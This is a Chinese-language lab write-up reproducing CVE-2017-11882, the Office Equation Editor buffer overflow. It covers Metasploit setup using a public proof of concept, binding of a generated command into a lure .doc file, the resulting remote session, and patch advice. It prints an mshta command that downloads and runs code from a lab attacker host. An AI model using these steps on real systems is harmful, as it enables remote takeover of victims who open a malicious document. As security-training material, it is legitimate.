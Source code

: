 # MS office_RCE



## 漏洞描述

CVE-2017-11882 漏洞位于 Office 的 EQNEDT32.EXE 组件中，该组件是一款用于创建和编辑数学方程式的组件，由于在拷贝 Office 传入 font name 字段时没有对该字符串的长度进行限制，所以造成了缓冲区的溢出。这个漏洞允许攻击者通过特制的恶意文档利用漏洞，执行任意的代码。

攻击者可以通过电子邮件附件、恶意网站或其他方式传播包含恶意代码的文档，一旦用户打开这些文档，恶意代码就可能被执行，导致攻击者获取系统控制权、窃取敏感信息或进行其他恶意活动。





## 影响版本

![img](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/20190710220035981.png)





## 漏洞复现

> **poc下载**
>
> 下载地址：`https://github.com/starnightcyber/CVE-2017-11882`

![image-20240409184543052](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409184543052.png)

![image-20240409175014707](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409175014707.png)

可以看到，我已经将该项目下载到本地；

将 其中的 PS_shell.rb 文件放到MSF的安装目录的 exploits 模块下，改个易懂的名。

![image-20240409175214785](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409175214785.png)

然后启动MSF，并进入这个模块![image-20240409175559222](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409175559222.png)

在这里设置参数，端口 和url的路径

![image-20240409182851686](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409182851686.png)

执行run

![image-20240409182920038](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409182920038.png)

可以看到，生成了`mshta.exe "http://192.168.1.9/intsall"`这样一段话。其中意义是通过` http://192.168.1.9/intsall`这个url下载文件,然后使用`mshta.exe`来执行； 

回到poc的下载目录，执行脚本，将上面run命令执行后生成的命令和 武功秘籍.doc 文件进行绑定

![image-20240409183049492](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409183049492.png)

可以看到，攻击机在监听，等待目标机点击文档

![image-20240409183929873](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409183929873.png)

![image-20240409184006311](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409184006311.png)

可以看到，目标机点击文件后，攻击者就有流量反应了

使用session -i查看上线的机器

![image-20240409184201197](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409184201197.png)

指定编号进行连接

![image-20240409184255150](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240409184255150.png)

可以看到，成功拿下目标机；



## 修复建议

- 下载微软安全更新中心关于 CVE-2017-11882 的补丁
- 升级office到最新版





